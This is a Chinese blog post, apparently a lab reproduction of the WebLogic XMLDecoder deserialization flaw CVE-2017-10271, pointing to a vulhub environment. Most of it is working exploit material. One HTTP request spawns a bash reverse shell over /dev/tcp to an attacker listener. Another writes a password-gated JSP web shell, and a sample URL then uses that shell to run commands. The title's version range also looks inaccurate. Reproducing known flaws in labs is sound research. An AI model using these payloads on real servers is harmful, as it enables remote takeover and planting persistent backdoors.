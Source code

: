 ```yaml
---
title: Weblogic < 1.3.6 反序列化(CVE-2017-10271)
date: 2020-07-02 20:49:57
categories: 漏洞复现
tags: Weblogic
---
```


#### 背景

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

<!--more-->

#### 复现过程

##### 反弹shell

1. nc 监听

   ```bash
   nc -lvp 444
   ```

2. POC

   使用bp发送如下payload

   ```http
   POST /wls-wsat/CoordinatorPortType HTTP/1.1
   Host: your-ip:7001
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: text/xml
   Content-Length: 633
   
   <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
   <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java version="1.4.0" class="java.beans.XMLDecoder">
   <void class="java.lang.ProcessBuilder">
   <array class="java.lang.String" length="3">
   <void index="0">
   <string>/bin/bash</string>
   </void>
   <void index="1">
   <string>-c</string>
   </void>
   <void index="2">
   <string>bash -i &gt;&amp; /dev/tcp/*.*.*.*/4444 0&gt;&amp;1</string>
   </void>
   </array>
   <void method="start"/></void>
   </java>
   </work:WorkContext>
   </soapenv:Header>
   <soapenv:Body/>
   </soapenv:Envelope>
   ```

   注意将反弹shell的地址修改为nc监听地址

   ![](http://cdn.laohuan.art/2020-07-02_14-08-54.png)

##### 写shell

1. 使用bp发送如下paylaod

   ```http
   POST /wls-wsat/CoordinatorPortType HTTP/1.1
   Host: IP:7001
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
   Connection: close
   Content-Type: text/xml
   Content-Length: 905
   
   <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
       <soapenv:Header>
       <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
       <java><java version="1.4.0" class="java.beans.XMLDecoder">
       <object class="java.io.PrintWriter"> 
       <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
       <void method="println"><string>
       <![CDATA[
   <%if("test".equals(request.getParameter("pwd"))){java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
   int a = -1;
   byte[] b = new byte[2048];
   out.print("<pre>");
   while((a=in.read(b))!=-1){
   out.println(new String(b));
   }
   out.print("</pre>");}%>
       ]]>
       </string>
       </void>
       <void method="close"/>
       </object></java></java>
       </work:WorkContext>
       </soapenv:Header>
       <soapenv:Body/>
   </soapenv:Envelope>
   ```

   ![](http://cdn.laohuan.art/2020-07-02_15-27-25.png)

2. 连接shell

   ```url
   http://IP:7001/bea_wls_internal/test.jsp?pwd=test&i=ifconfig
   ```

   ![](http://cdn.laohuan.art/2020-07-02_15-27-44.png)

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/weblogic/CVE-2017-10271/>